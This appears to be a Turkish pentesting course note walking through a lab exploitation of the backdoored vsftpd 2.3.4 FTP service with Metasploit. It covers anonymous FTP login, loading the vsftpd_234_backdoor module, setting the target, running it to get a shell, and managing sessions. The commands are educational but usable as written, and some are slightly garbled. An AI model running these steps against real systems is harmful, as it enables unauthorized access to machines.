

# 05.05. İlk Hack ve Erişim Sağlamak

Created time: November 25, 2025 3:50 PM
Multi-select: 05-Pentesting

# İlk Hack ve Erişim Sağlamak

`nmap` sonuçlarını incelediğimizde açık portlarda zafiyet olan bir port tespit edildi.  Ayrıca FTP versiyonunun zafiyete sahip olup olmadığı da ayrıca araştırılır.


```bash
ftp <TARGET_IP>

ftp 192.168.23.130
```

```bash
# kullanıcı adı ve şifre için:
kullanıcı adı: anonymous
şifre: anonymous
```

❓ FTP nedir? Ne işe yarar?

> FTP (File Transfer Protocol) bir dosya transfer protokolüdür.
> 

## Yazılım Versiyonunda Açık Aramak

Açık portlarda çalışan servis sürümleri `nmap` tarafından bize verildi. Şimdi ise bu versiyonlarda bir açık var mı araştırma yapabiliriz.

Açık portlardan biri olan 21. portta FTP servisinin versiyonu `vsftpd 2.3.4` bu versiyonda bir zafiyet var mı? İnternette araştırma yaparak kontrol edelim.

[https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

## **Metasploit Framework Kullanımı**

> *The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code.

Metasploit Framework, istismar kodu yazmanıza, test etmenize ve çalıştırmanıza olanak tanıyan Ruby tabanlı, modüler bir penetrasyon testi platformudur.*

https://docs.rapid7.com/metasploit/msf-overview/
> 

---

```bash
# **Metasploit konsol ara**cını çalıştırmak için:
msfconsole
```


---

Açılan `msfconsole` uygulamasında `search` komutu ile **Metasploit Framewor’ündeki**  açıklar aranır.

```bash
search
```


---

`search` komutu ile doğrudan alakalı olan modül için arama yapılır. 

```bash
search vsftpd
```


### Arka Kapı Komutunu Çalıştırma

Daha önce internette bulduğumuz açığın Metasploit Framework’ünde nasıl kullanılacağını yazan komutları çalıştırıyoruz.

[https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

```bash
# msfconsole içinde:
use exploit/unix/ftp/vsftpd_234_backdoor

show targets

set TARGET < target-id >
set TARGET 192.168.23.130
set target 0

show options

set rhosts < target-id >
set rhosts 192.168.23.130

exploit

```




---

`exploit`komutundan sonra içeride linux komutlarını çalıştırabilir hale geldik.


---

## Oturumu Arkaplana Almak ve Sonlandırmak

```bash
# oturum açıkken, oturumu arka plana almak için
background

# arka plandaki oturumları(session) listelemek için
sessions -l

# arka plandaki oturumları(session) istediğinizi seçmek için
session "Id"
session 1

# çıkmak için
exit -y

```


# Kaynaklar

- [Turknet — FTP nedir?](https://www.turk.net/blog/ftp-nedir/)
- [Hosting — FTP nedir ve nasıl kullanılır?](https://www.hosting.com.tr/bilgi-bankasi/ftp-nedir-ve-nasil-kullanilir/)
- [Medium — Exploiting vsftpd 2.3.4 (walkthrough)](https://medium.com/@ucheomaokoma_/exploiting-vsftpd-2-3-4-a-hands-on-penetration-test-on-a-backdoored-ftp-service-c869b2ffd43d)
- [Rapid7 — Metasploit Overview](https://docs.rapid7.com/metasploit/msf-overview/)
- [Beyaz — Sızma testlerinde Metasploit kullanımı](https://www.beyaz.net/tr/guvenlik/makaleler/sizma_testlerinde_metasploit_kullanimi.html)
- [OffSec — Metasploit Unleashed: msfconsole](https://www.offsec.com/metasploit-unleashed/msfconsole/)